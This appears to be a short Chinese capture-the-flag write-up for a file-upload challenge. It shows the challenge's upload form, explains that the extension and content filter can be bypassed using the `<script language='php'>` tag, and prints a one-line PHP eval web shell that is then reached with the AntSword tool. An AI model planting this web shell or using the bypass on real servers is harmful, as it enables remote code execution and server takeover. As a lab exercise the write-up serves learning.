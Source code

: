 ```php

<!DOCTYPE html>
<html>
<head>
        <title>上传文件</title>
        <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
</head>
<body>
        请不要上传php脚本哟
        <form action="upload.php" method="POST" enctype="multipart/form-data">
                <input type="file" name="upfile" value="" />
                <input type="submit" name="submit" value="提交" />
        </form>
</body>
</html>
```

过滤还是挺严格的，对后缀和内容都进行了判断。后来了解到除了`<?php`可以作为php脚本以外，html标签也可以`<script language='php'>`，于是上传一个该标签的脚本。

```php
<script language='php'>
@eval($_POST['hack']);
</script>
```

蚁剑连接获取flag。

![蚁剑连接](./web-3-1.png)
